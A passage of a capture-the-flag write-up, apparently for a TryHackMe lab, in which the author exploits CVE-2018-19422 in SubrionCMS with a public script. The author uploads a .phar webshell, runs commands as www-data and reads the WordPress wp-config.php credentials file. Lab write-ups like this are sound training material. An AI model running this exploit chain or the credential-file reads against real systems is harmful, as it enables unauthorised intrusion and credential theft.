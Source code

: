 We can upload php file to get access to system. But I tried different thing instead of uploading reverse shell I tried this script to do the dirty work.

Script : https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE

But if you wanna upload a file and do it yourself makesure your php file should be **.phar**.

```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1/CVE-2018-19422-SubrionCMS-RCE]
└─$ python3 SubrionRCE.py -u http://10.10.168.200/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.168.200/subrion/panel/
[+] Success!
[+] Got CSRF token: sRY9GS572zbGcZo8uzRpF49eoXhYbDTO9LZfOdYx
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: eerqehzwsunpqxn

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.168.200/subrion/panel/uploads/eerqehzwsunpqxn.phar 

$ whoami
www-data

$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 May 28  2021 .
drwxr-xr-x 23 root     root     4096 May 28  2021 ..
drwxr-xr-x  4 scamsite scamsite 4096 May 29  2021 scamsite
```
We got into www-data and we got a user called scamsite. First see through wordpress. Because earlier I saw web directory called wordpress.

## Looking for wp-config file
```bash
$ ls -la /var/www/html/wordpress/
total 220
drwxr-xr-x  5 www-data www-data  4096 May 29  2021 .
drwxr-xr-x  5 root     root      4096 May 29  2021 ..
-rw-r--r--  1 www-data www-data   543 May 29  2021 .htaccess
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7345 Dec 30  2020 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 May 13  2021 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  2992 May 29  2021 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 May 29  2021 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 31  2020 wp-cron.php
```
We found a wp-config file. Let's see what we got here.
```bash
$ cat /var/www/html/wordpress/wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
```
